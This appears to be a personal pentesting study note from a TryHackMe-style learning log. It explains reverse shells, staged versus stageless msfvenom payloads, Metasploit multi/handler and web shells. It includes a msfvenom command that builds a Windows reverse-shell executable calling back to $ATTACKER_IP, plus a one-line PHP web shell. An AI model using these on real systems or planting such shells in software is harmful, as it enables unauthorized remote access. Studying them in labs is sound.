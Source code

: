 Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

- [2021-10-02 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-10-02-tryhackme-complete-beginner.html)
- [PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## msfvenom

Definitions:

- STAGED payloads use an initial stage whose job it is to establish a reverse connection and then load the actual shell code (the second stage) into memory. This helps minimize initial payload size and evade IDS, but tends to require more specialized code. Metasploit multi/handler + Meterpreter use this approach.
- STAGELESS payloads are one-stop shops - basically, everything we’ve been working with outside of Metasploit falls in this bucket. Easier to work with and understand, but bulkier and more likely to trigger alarms.

As memory scanning has become more common, staged payloads have lost some of their alure.

Fortunately (unfortunately?) msfvenom will automate our reverse shell needs. It can, among other things, generate Windows executables that will set up a reverse shell for you.

```
msfvenom -p windows/x64/shell/reverse_tcp \
-f exe -o shell.exe \
LHOST=$ATTACKER_IP LPORT=$LISTENER_PORT
```

The payload (`-p`) switch takes a Metasploit payload name. Payloads follow the OS/ARCHITECTURE/PAYLOAD (though ARCHITECTURE is not included for 32-bit Windows payloads). Staged payloads replace the first `_` with a `/`, so windows/x64/shell/reverse\_tcp is a staged while windows/x64/shell\_revers\_tcp is stageless.

List all available payloads using `msfvenom --list payloads`.

Interestingly, Metasploit/Meterpeter shells are banned from som certification examinations. I guess because they’re just too powerful.

## Metasploit Multi/Handler

Be sure to set the right PAYLOAD when using multi/handler!

## WebShells

Webshells are shells that run within a webserver, typically receiving input via GET variables or a form, and outputting to the page HTML. So, the simplest (PHP) web shell might be:

```
<?php
echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

Web shells are, by their nature, non-interactive.

